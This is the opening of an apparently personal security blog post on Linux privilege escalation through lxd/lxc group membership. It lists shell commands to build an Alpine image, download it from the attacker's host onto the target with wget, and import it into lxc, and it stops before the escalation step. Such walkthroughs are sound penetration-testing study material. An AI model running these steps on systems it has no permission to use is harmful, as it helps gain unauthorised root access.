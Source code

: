 ```yaml
---
title: "Linux Privilege Escaltion"
date: 2021-02-15 16.40 
categories: [Linux, Privilege_Escalation]
tags: [linux ,privilege_escaltion, groups, kernel_exploits ,misconfigured_services ,permissions]
author: LXD
image: /assets/img/posts/anonymous/privilege_escaltion.png
---
```


![privilege_escaltion](/assets/img/posts/misc/privilege_escalation.png)

Linux:
**#Privilege_Escalation_with_Intresting_Groups**

**lxd/lxc**

Firstly ,get the required files for attack from github
- `git clone https://github.com/saghul/lxd-alpine-builder.git`
- `cd lxd-alpine-builder | ./build-alpine`

Now open a python server to share the output gunzip file (both of them works) 
- `cd /tmp | wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz`

We can now add our image to the target's memory
- `lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage`
- Let's check : `lxc image list`
